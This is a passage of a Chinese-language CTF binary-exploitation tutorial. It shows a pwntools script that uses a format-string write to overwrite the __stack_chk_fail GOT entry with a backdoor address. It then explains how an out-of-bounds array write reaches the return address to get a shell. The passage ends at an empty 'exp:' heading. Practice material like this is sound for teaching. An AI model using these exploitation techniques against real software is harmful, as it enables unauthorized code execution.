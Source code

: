 - aaa：填充作用，随便写，使之为8的倍数让栈对齐

- p64(__ stack_chk_fail+2) + p64(__stack_chk_fail) ：将backdoor函数地址分为高两个字节和低两字节进行写入。

```
from pwn import *

r=process('./hijack_got')

elf = ELF('./hijack_got')

__stack_chk_fail=elf.got['__stack_chk_fail']

payload = "%64c%9$hn%1510c%10$hnaaa" + p64(__stack_chk_fail+2) + p64(__stack_chk_fail)

r.sendline(payload)

r.interactive()
```

结果：

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713081889053-38560d27-abe6-4136-ab48-95f4fa79bcc0.png)

##### 5.数组下标越界

###### 例题演示：

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713084202874-f538887e-6702-463e-b60b-2431fafa403d.png)

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713083875740-2a861e91-4d20-4bf6-84c8-fefc6169ac3f.png)

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713084115054-79a9e747-bc56-4fdc-8a17-2af2d0a92719.png)

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713084130722-2a45a3c8-865b-46af-8bea-7fdfa1e7dd12.png)

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713083908585-371fb688-9f28-4e48-bd66-9a0215c293f9.png)

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713083938087-988f6da5-f0ed-4d9d-bce4-d9fdfb41e2d5.png)

开了栈溢出保护和堆栈不可执行，看main，这里name是到bss段的，最后saybye的时候打印出来，重点看中间的程序，发现有数组：C/C++不对数组做边界检查。 可以重写数组的每一端，并写入一些其他变量的数组或者甚至是写入程序的代码。不检查下标是否越界可以有效提高程序运行的效率，因为如果你检查，那么编译器必须在生成的目标代码中加入额外的代码用于程序运行时检测下标是否越界，这就会导致程序的运行速度下降，所以为了程序的运行效率，C / C++才不检查下标是否越界。发现如果数组下标越界了，那么它会自动接着那块内存往后写。

漏洞利用：继续往后写内存，这里就可以通过计算，写到我们的ret位置处，这样就可以直接getshell

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713084328422-881ab232-c4d3-4b7b-91b6-dab17f8e7d26.png)

这里我引用一个图来讲解一下，ret位置就相当于位于下标为6的数组的位置，在这个题目里esp到ebp的空间是0x38。53/4=13，可以得出ret的地址是在下标为14的位置。

![](https://cdn.nlark.com/yuque/0/2024/png/40760320/1713084720102-60cfaa8e-9c15-45a0-bd3b-9f171d3e863f.png)

exp:
